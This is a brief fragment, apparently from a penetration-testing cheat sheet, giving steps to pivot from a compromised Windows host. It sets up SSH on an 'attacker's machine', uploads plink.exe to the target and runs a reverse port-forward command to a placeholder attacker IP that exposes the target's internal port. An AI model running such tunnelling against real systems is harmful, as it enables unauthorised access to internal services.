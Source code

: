 **Steps**:
1. On the attacker’s machine, start SSH:
   ```bash
   systemctl start ssh
   ```
2. Upload `plink.exe` to the target in binary mode.
3. Execute on the target:
   ```bash
   plink.exe -l <username> -pw <password> -R <port>:127.0.0.1:<port> <attacker_ip>
   ```
4. The target’s port is now accessible on the attacker’s machine at `127.0.0.1:<port>`.
